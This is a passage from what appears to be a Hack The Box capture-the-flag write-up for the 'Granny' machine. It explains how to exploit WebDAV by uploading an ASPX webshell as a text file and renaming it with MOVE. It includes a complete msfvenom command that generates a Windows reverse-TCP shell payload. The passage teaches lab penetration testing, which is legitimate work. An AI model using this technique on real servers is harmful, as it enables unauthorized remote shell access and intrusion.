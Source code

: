 It looks like we aren't able to upload `.asp` or `.aspx` files, which would have made our lives a lot easier. However, if we remember the output of the `http-webdav-scan`, we are allowed to use the `MOVE` method. `MOVE` allows us to, well, move files around on the web server (duh), but this also allows us to change the name and extension of the files we move around. Our exploitation plan is now to use WebDAV to upload an `.aspx` webshell as a text file, then use `MOVE` to change it to an ASPX file that the server will execute. First things first, lets generate a webshell using `msfvenom`.

```bash
$ msfvenom -p windows/shell/reverse_tcp -f aspx LHOST=tun0 LPORT=443 -o shell.aspx
```

Next, lets use one of our proxied PUT requests in Burp to upload the contents of `shell.aspx` as a text file.

![](/assets/images/HTB/granny/granny-put-webshell.png)

And now we can use `MOVE` to switch it from a `txt` file to an `aspx` file.
